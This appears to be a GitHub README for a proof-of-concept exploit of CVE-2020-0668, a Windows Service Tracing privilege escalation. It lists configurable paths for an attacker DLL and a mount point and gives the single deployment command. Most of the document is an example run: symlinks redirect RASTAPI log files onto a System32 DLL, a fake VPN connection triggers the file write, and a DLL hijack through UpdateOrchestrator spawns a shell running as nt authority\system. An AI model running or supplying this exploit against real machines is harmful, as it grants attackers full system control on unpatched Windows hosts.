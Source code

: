 # CVE-2020-0668

## Windows Service Tracing Elevation of Privilege 

### Options:

1. Exploit Running Location = `LPCWSTR MOUNTPATH = L"C:\\EXPLOIT\\MOUNTPOINT";`  
2. Attacker DLL = `LPCWSTR ATTACKDLLPATH = L"C:\\EXPLOIT\\payload.dll";`

### Deployment:

1. CVE-2020-0668.exe

### Example:

```
C:\EXPLOIT>CVE-2020-0668.exe
[*] Querying RasMan Service
[*] RasMan Service Status: Stopped
[*] Continuing Exploit
[*] Enabling RASTAPI File Tracing
[*] Setting RASTAPI FileDirectory
[*] Setting RASTAPI MaxFileSize
[*] Setting Mount Point
[*] Creating Symlinks
[*] Opened Link \RPC Control\RASTAPI.LOG -> \??\C:\EXPLOIT\payload.dll: 000001C8
[*] Opened Link \RPC Control\RASTAPI.OLD -> \??\C:\Windows\System32\windowscoredeviceinfo.dll: 000001D0
[*] Creating vpn.pbk
[*] Starting Fake VPN Connection
Connecting to VPN...
Verifying username and password...
Connecting to VPN...
Connecting to VPN...
Connecting to VPN...

Remote Access error 800 - The remote connection was not made because the attempted VPN tunnels failed. The VPN server might be unreachable. If this connection is attempting to use an L2TP/IPsec tunnel, the security parameters required for IPsec negotiation might not be configured properly.

For more help on this error:
        Type 'hh netcfg.chm'
        In help, click Troubleshooting, then Error Messages, then 800
[*] Attempting DLL Hijack
[*] Using UpdateOrchestrator->StartScan()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartScan'... Done.
[*] Spawning Shell
Microsoft Windows [Version 10.0.18362.418]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```